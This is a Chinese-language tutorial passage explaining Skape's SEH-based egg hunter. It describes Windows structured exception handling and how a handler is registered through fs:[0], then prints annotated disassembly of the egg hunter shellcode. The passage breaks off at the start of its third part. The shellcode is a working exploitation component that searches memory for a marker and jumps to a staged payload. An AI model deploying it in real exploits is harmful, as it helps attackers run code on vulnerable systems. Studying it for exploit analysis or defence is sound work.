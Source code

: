 2. SEH

    如果看了Skape文章的话，会发现在判断内存是否可以访问的逻辑中，除了调用内核函数直接判断，他还提出了在Windows下可以利用SEH的方式来处理。
    
    SEH全称structured exception handling，简单来说就是异常处理。应用在Egg Hunter中，就是在出现地址不可访问的时候，直接到SEH中进行统一的处理，来屏蔽这个异常。
    
    Windows采用了链表的方式来构造，在出现异常的时候通过遍历链表，找到第一个能处理异常的SEH来执行。
    
    SEH的结构体如下：
    
    ```
    typedef struct _EXCEPTION_REGISTRATION_RECORD
    {
    struct _EXCEPTION_REGISTRATION_RECORD *Next;    //这里指向链表中的下一个SEH
    EXCEPTION_DISPOSITION (*Handler)(
    struct _EXCEPTION_RECORD *record,
    void *frame,
    struct _CONTEXT *ctx,
    void *dispctx);
    } EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
    ```
    
    SEH链表头为fs:[0]，fs是一个段寄存器，fs:[0]指向第一个SEH结构体的地址。第一个SEH结构体通过Next指针指向下一个SEH结构体。
    
    在c语言中，我们可以在代码中通过try/exception来自己注册SEH，如下：
    
    ```
    int main()
    {
        __try   //可以编译一个程序通过IDA查看，发现在__try之前，编译器就帮忙注册了相应的SEH
        {
            //TODO
        }
        __except(MyExceptionhander()){} 
    }
    ```
    
    但是我们的Hunter又不是在编译阶段塞到程序里的，因此我们想要用一个SEH来处理内存地址访问异常，那就需要自己注册一个SEH。
    
    既然SEH本身是个链表结构，那注册的方式就简单了，直接把fs:[0]的地址指向我们的SEH即可，为了避免SEH链表出现异常，我们在自己的SEH结构体中把Next指向0xffffffff，这样注册完，整个SEH链表中就只有我们这一个SEH了。

## ShellCode分析

Skape给出利用SEH的Egg Hunter的shellcode如下，我们可以分为三部分来看：

```
***************第一部分：注册SEH***************
00000000 EB21       jmp short 0x23      //这里开头就跳到0x23，然后在call回来，是为了获取SEH处理函数的地址
00000002 59         pop ecx             //将SEH处理函数的地址放入ecx
00000003 B890509050 mov eax,0x50905090
00000008 51         push ecx            //SEH结构体中的handler
00000009 6AFF       push byte -0x1      //SEH结构体中的Next
0000000B 33DB       xor ebx,ebx
0000000D 648923     mov [fs:ebx],esp    //将SEH注册到fs:[0]
***************第二部分：扫描内存***************
00000010 6A02       push byte +0x2      
00000012 59         pop ecx             //ecx=2，作为循环变量，repe scasd可执行两次
00000013 8BFB       mov edi,ebx         //edi就是当前地址
00000015 F3AF       repe scasd          //比较edi和eax，eax是上文的0x50905090，也是访问发生异常的地方
00000017 7507       jnz 0x20            //比较失败
00000019 FFE7       jmp edi             //比较成功，直接跳去edi执行shellcode
0000001B 6681CBFF0F or bx,0xfff         //异常处理后的返回到这里，跳到下一内存页
00000020 43         inc ebx             //扫描地址+1
00000021 EBED       jmp short 0x10      //继续扫描
00000023 E8DAFFFFFF call 0x2
***************第三部分：SEH处理函数***************
00000028 6A0C       push byte +0xc      
```